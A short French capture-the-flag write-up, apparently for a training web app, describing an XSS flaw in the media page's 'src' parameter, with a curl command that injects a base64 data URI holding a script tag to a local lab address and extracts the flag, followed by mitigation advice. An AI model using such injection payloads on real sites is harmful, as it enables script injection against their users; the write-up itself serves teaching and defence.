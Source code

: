 # Exploit 10 - Media page XSS

Sur la page _media_, l'attribut source de l'image est géré par le paramètre de requête _src_. Nous pouvons en profiter
pour injecter une balise script à la place d'une source d'image appropriée.

```bash
curl -s -X GET "http://192.168.56.102/index.php?page=media&src=data:text/html;base64,$(echo "<script>alert('')</script>" | base64)" | grep -oP 'The flag is : \K[0-9a-f]{64}'
```

Pour contrer cette attaque, il faut échapper les caractères spéciaux dans les données fournies par l'utilisateur. Par
exemple,
on peut utiliser la fonction `htmlspecialchars` de PHP pour échapper les caractères spéciaux dans les balises HTML.

Dans ce cas précis, on s'attend à recevoir une URL d'image. On peut donc directement vérifier que la valeur fournie
correspond à une URL valide.

